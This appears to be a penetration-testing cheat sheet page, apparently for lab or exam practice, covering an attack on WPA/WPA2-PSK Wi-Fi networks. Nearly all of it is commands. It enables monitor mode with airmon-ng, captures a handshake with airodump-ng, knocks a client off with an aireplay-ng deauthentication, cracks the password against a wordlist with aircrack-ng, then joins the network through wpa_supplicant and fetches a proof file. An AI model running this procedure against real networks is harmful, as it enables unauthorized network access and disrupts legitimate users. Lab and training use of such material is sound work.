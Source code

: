 ```yaml
---
description: WPA/WPA2
---
```


# WPA-PSK

### Setup

{% code overflow="wrap" %}
```
sudo airmon-ng check kill

sudo airmon-ng start wlan0
```
{% endcode %}

### [Reconnaissance](../#reconnaissance)

{% code overflow="wrap" %}
```
sudo airodump-ng wlan0mon
```
{% endcode %}

{% hint style="info" %}
Gather `CH` `ESSID` `BSSID` & Clients ; `AUTH PSK`= WPA Personal
{% endhint %}

#### Capture + output as wpa-01.pcap

{% code overflow="wrap" %}
```
# -c channel -w output filename = recon-0#
sudo airodump-ng -c # --essid AP_NAME --bssid XX:XX:XX:XX:XX:XX -w wpa --output-format pcap wlan0mon
```
{% endcode %}

#### Deauth a client once to get reconnection for handshakes

{% code overflow="wrap" %}
```
#-a AP MAC -c Client MAC
sudo aireplay-ng -0 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan0mon
```
{% endcode %}

### Cracking

#### aircrack-ng

{% code overflow="wrap" %}
```
#-b bssid -e essid
aircrack-ng -w /usr/share/john/password.lst -e AP_NAME -b XX:XX:XX:XX:XX:XX wpa-01.cap
```
{% endcode %}

### Connect to the network with retrieved credentials

#### Create `wpa_supplicant.conf`&#x20;

{% code overflow="wrap" %}
```
network={
  ssid="network"
  scan_ssid=1
  psk="password"
  key_mgmt=WPA-PSK
}
```
{% endcode %}

#### Connect to network

<pre><code><strong>wpa_supplicant -c &#x3C;config file>
</strong><strong>
</strong>sudo dhclient wlan0
</code></pre>

### Get proof

```
curl http://192.168.1.1/proof.txt
```
